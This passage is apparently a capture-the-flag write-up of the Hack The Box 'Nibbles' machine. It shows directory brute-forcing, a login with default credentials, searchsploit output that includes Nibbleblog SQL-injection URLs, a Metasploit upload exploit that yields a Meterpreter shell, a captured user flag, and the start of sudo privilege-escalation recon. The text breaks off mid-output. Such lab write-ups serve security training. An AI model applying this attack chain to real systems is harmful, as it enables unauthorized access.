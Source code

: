 I ran a dirbuster on 10.10.10.75/nibblesblog and found an admin area. I googled the default creds for nibblesblog and tried them. It worked

&nbsp;

<img class="alignnone wp-image-102" src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/adminarea.png?resize=680%2C323" alt="adminarea" width="680" height="323" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/adminarea.png?w=1499 1499w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/adminarea.png?resize=300%2C143 300w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/adminarea.png?resize=768%2C365 768w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/adminarea.png?resize=1024%2C487 1024w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/adminarea.png?w=1360 1360w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /> 

I looked to see if there were any exploits for nibble and seen there was a Metasploit module.

<pre>[root:~/Desktop/nibbles]# searchsploit nibble
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title | Path
 | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Nibbleblog - Arbitrary File Upload (Metasploit) | exploits/php/remote/38489.rb
Nibbleblog - Multiple SQL Injections | exploits/php/webapps/35865.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
[root:~/Desktop/nibbles]# cat /usr/share/exploitdb/exploits/php/webapps/35865.txt
source: http://www.securityfocus.com/bid/48339/info

Nibbleblog is prone to multiple SQL-injection vulnerabilities because the application fails to properly sanitize user-supplied input before using it in an SQL query.

A successful exploit may allow an attacker to compromise the application, access or modify data, or exploit vulnerabilities in the underlying database.

Nibbleblog 3.0 is affected; other versions may also be vulnerable.

http://www.example.com/index.php?page=[SQLi]
http://www.example.com/post.php?idpost=[SQLi]# [root:~/Desktop/nibbles]#</pre>

I cranked up Metasploit and ran the exploit with the following details and got a Metreperter shell:

<img class="alignnone size-full wp-image-104" src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/metalogin.png?resize=680%2C611" alt="metalogin" width="680" height="611" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/metalogin.png?w=991 991w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/metalogin.png?resize=300%2C270 300w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/metalogin.png?resize=768%2C691 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /> 

I navigated to the home directory and into nibbler&#8217;s home directory to get the user.

<pre>meterpreter &gt; cat user.txt
b02ff32bb332deba49eeaed21152c8d8</pre>

Its always good to see what su access you have. What i&#8217;ve found in HTB is that it generally gives away what you have to modify and run to get root. Sure enough:

<pre>meterpreter &gt; shell
Process 22018 created.
Channel 1 created.
sudo -l
sudoMatching Defaults entries for nibbler on Nibbles:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
